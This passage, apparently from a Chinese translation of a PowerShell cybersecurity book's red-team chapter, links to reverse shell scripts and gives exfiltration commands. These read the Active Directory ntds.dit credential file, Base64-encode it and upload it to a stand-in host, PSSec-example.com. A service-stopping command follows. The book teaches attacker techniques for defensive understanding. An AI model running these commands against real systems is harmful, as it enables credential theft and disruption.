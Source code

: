 你可以在本章的 GitHub 仓库中找到这段代码：

+   客户端：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter08/RevShell_Client.ps1`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter08/RevShell_Client.ps1)

+   服务器：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter08/RevShell_Server.ps1`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter08/RevShell_Server.ps1)

当然，也有一些工具，如 PowerShell Empire 和 Metasploit，已经有模块可以自动生成有效负载并打开反向 shell。

## 导出

在导出阶段，红队员尝试从受害者的网络中窃取并导出数据。

### 导出文件并将其上传到 Web 服务器

你想要导出一个文件的内容并将其上传到 Web 服务器。

#### 解决方案

你可以通过读取目标文件的字节，将它们转换为`Base64`字符串，并使用`Invoke-WebRequest`将其上传到 Web 服务器来实现目标：

```
> $FileContent = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\shadowcopy\Windows\NTDS\ntds.dit"))
> Invoke-WebRequest -uri http://PSSec-example.com/upload -Method POST -Body $FileContent
```

在这个例子中，我们将之前提取的 Base64 编码的`ntds.dit`文件作为影像副本上传到`http://PSSec-example.com/upload`（该网址并不存在，我们只是为了这个示例虚构的）。

也可以使用`System.NET.WebClient`类来提取和上传文件。以下代码片段展示了如何实现这一目标：

```
> $FileToUpload = "C:\shadowcopy\Windows\NTDS\ntds.dit"
> (New-Object System.NET.WebClient).UploadFile("ftp://PSSec-example.com/ntds.dit, $FileToUpload)
```

## 影响

影响阶段的配方旨在引发混乱；红队员试图中断、破坏或操控系统或数据。

### 停止服务

你想要停止一个服务。

#### 解决方案

为此，你可以使用`Stop-Service` cmdlet：

```
> Stop-Service -Name Spooler -Force
```

如果执行该命令，之前的命令将停止`Spooler`服务。使用`-Force`参数时，服务将会在没有确认提示的情况下被强制停止。
